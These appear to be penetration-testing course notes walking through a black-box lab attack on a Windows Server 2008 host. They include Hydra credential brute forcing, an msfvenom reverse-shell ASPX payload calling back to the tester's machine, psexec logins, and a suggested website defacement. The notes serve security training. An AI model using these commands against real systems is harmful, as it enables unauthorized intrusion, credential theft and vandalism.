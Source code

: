 # 7 - Windows Exploitation

## <mark style="color:red;">Windows Black Box Penetration Test</mark>

### **Black Box Pentest**

* A Black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (No IP ranges, system information or default credentials are provided).
* The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
* This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company's systems or networks.

### **Penetration Testing Phases**

* The following diagram outlines the various phases involved in a typical penetration test.

### **Black Box Methodology:**

* Host discovery
* Port scanning & enumeration
* Vulnerability detection/scanning
* Exploitation
* Manual
* Automated
* Post Exploitation
* Privilege Escalation
* Persistence
* Dumping Hashes

### **Scenario & Scope**

* You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network.
* The pentest lead has assigned you to gain access/exploit a host running Windows Server 2008.
* Your primary objectives are:
  * Identify services running on the target.
  * Identify vulnerabilities within the services.
  * Exploit these vulnerabilities to obtain an initial foothold.



## Practical Demonstration

#### <mark style="color:yellow;">Black Box Port Scanning & Enumeration</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# discovering hosts in the network, we can get the target ip 
cat /etc/hosts # ping it to confirm reachability.

# nmap scan 
nmap -sV $ip # scan 1000 commonly used ports.
nmap -T4 -PA -sC -sV -p 1-10000 $ip -oX nmap_10k # -PA-ack scan, -oX-xml format.
nc -nv $ip 21 # to get banner, but no luck.
# we opened the "http://$ip/4848" on the web browser to take a look at the service, $ip/8080, $ip/9200 etc.

# we get a lot of http service ports based on the nmap scan on line 6, so we view each of them.

service postgresql start && msfconsole # create a workspace for the target (Win2k8).
db_import /path_to_nmapscan # import the scan.
# if you want the OS name to be specified correctly in the "os_name" column in msfconsole db a trick is to use the SMB version module.
search smb_version
use 0
options
set RHOSTS $ip
run
hosts # host name is now specified correctlly.
services # view all imported services.

# we can also do a comprehensive scan
nmap -sV -T4 -PA -sC -p 1-65535 $ip -oV nmap_All # didnt do.
nmap -sU -sV $ip # udp scan.
```
{% endcode %}

#### <mark style="color:yellow;">1 - Targeting Microsoft IIS FTP (port 21)</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# check for anonymous access with nmap "ftp-anon" script or mannually with ftp $ip, enter "anonymous" as UN, which didnt work.

# we can use hydra to perform bruteforce on the ftp server.
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # we got some creds.

# we can also check if the user "vagrant" exist also
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # none exist but we can swap the wordlist and make use of the unix_users.txt in the "-P" option to check also. Save the creds.

ftp $ip # login with admin cred. We discover a .asp file, meaning the web server can execute .asp files....so we can generate a malicious .asp payload, upload it to get a reverse shell.

# using msfvenom to generate payload.
msfvenom -p wimdows/shell/reverse_tcp LHOST=$kaliIP LPORT=1234 -f asp > shell.aspx # we dont need a meterpreter shell here, hence we use normal reverse shell.

# login via ftp using the vagrant user.
ftp> put shell.aspx # upload the payload

# setup msfconsole to setup handler.
use multi/handler
set payload .....
set LHOST, LPORT. ..
run

# execute the file via the browser
# in this case we didnt get a reverse shell, even generating a .asp file didnt work also.

# what else can we do?
# attackers can deface the website since the "index.html" file is accessible in the ftp server.
get index.html

# open and edit, the upload it back.
put index.html
```
{% endcode %}

#### <mark style="color:yellow;">3 - Targeting OpenSSH</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we can perform a bruteforce, using "varant" and administrator as the user.
# login with the user "vagrant", we got a shell session.

# we can use the "use auxililary/scanner/ssh/ssh_login" module to obtain a meterpreter session, set USERNAME, PASSWORD to "Vagrant".
# upgrade to a meterpreter session "sessions -u 1" - but it failed.

# we can generate a meterpreter payload, and transfer it to the target via ssh, but that's not necessary in this case.

# in this case we can spawn a cmd shell session after loggin in via ssh using the "bash" cmd. Now we have a cmd prompt shell.

net localgroup administrators # check if the user is part of the local group.
whoami /priv # check user permissions.
```
{% endcode %}

#### <mark style="color:yellow;">4 - Targeting SMB</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -sC -p 445 $ip # indepth SMB scan.
hydra -l administrator -P /usr/share.../unix_users_or_password.txt smb # btrute force on smb. Test the "vagrant" user too.

# we can authenticate via rdp, but for now we are working on SMB.
smbclient -L $ip -U vagrant # list the vagrant shares.
smbmap -y vagrant -p vagrant -H $ip # list shares.
enum4linux -u vagrant -p vagrant -U $ip # enumerate other users on the PC.

# enumeratin shares with metasploit.
use auxiliary/scanner/smb/smb_enumusers_domain
set RHOSTS, SMBUser, SMBPass vagrant, run

# we can also use psexec.py script to authenticate.
locate psexec.py
chmod +x psexec.py
python3 psexec.py Administrator@$ip # login with psexec. We are NT AUTHORITY.

# msfconsole also have a psexec module (exploit/windows/smb/psexec).

# what is we have no creds.
# we can use the EternalBlue exploit to gain access to the user.
```
{% endcode %}

#### 6 - Targeting MySQL DB Server

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -sC -p 3306,8585 $ip # nmap scans.
searchsploit MySQL 5.5 # but we got nothing.
# perform a bruteforce with Metasploit
search mysql_login
use 0
# we found  out no password for the "root" user.
mysql -u root -p -h $ip # login mysql
show databases; # display dbs.
```
{% endcode %}



















